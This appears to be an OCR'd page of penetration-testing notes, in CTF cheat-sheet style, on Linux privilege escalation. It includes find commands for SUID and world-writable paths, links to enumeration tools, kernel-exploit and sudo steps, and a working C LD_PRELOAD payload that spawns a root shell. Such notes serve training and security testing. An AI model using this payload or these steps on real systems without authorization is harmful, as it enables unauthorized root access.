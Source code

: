   ```shell

  find . -name flag.txt #find files

  find / -perm -222 -type d 2>/dev/null #find world-writeable folders

  find / -perm -u=s -type f 2>/dev/null #find files with SUID bit
  ```

* Automated enumeration tools:

  * [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

  * [LinEnum](https://github.com/rebootuser/LinEnum)

  * [LES](https://github.com/mzet-/linux-exploit-suggester)

  * [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

  * [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

* Privilege Escalation:

  * Kernel exploits:

    * Identify the kernel version using ```cat /etc/issue``` or ```cat /proc/version```.

    * Search and find exploit code for kernel version of target system, using resources such as <https://www.linuxkernelcves.com/cves>

    * Run exploit.

  * Sudo:

    * <https://gtfobins.github.io/> can be used to check for using programs with sudo rights to get higher privilege.

    * ```sudo -l``` to check current situation related to root privileges

    * Leverage ```LD_PRELOAD```:

      ```c
      //on some systems, we can see the LD_PRELOAD option on 'sudo -l'
      //if env_keep option is enabled we can use a privilege escalation vector
      //the following C code can be used and compiled as a share object (.so extension) file
      //run program with sudo rights and LD_PRELOAD pointing to our .so file

      #include <stdio.h>
      #include <sys/types.h>
      #include <stdlib.h>

      void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
      }
      ```
